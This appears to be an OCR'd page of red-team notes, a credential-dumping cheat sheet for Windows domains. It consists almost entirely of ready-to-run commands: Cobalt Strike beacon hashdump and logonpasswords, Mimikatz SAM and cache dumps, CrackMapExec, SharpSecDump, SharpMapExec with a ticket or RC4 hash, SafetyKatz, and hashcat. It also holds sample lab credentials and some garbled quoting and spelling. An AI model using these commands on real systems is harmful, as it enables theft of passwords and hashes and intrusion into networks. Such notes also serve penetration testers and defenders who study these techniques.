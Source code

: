 CS

```
beacon> hashdump
[...]

beacon> mimikatz token::elevate lsadump::sam
[...]
```

CME

```
cme smb srv02.vualt.local -u locadm -p "yoloyolo1!' --sam
##### Secrets
```

##### Cache

CS

```
beacon> mimikatz lsadump::cache
```

Crack

```
# linux terminal
hashcat -m 2100
```

SharpSecDump

```
SharpSecDump.exe -target=sccm.vault.local -u=sccmsvc -p=salt&Vinegar! -d=vault.local
```

SharpMapExec

```
# kerberos ticket
SharpMapExec.exe kerberos winrm /ticket:sccmsvc.ticket /domain:vault.local /computername:sccm-2.vault.local /m:secrets

# password or hash
SharpMapExec.exe kerberos winrm /user:socadm /rc4:92392cbere646b159f2dd78d36cb968a /domain:vault.local /computername:sccm-2.vault.local /m:secrets
```

##### LSASS

###### Cobalt Strike LSASS/Logon Passwords

```
beacon> logonpasswords
```

SafetyKatz

```
beacon> execute-assembly c:\tools\SafetyKatz.exe
[...]
```
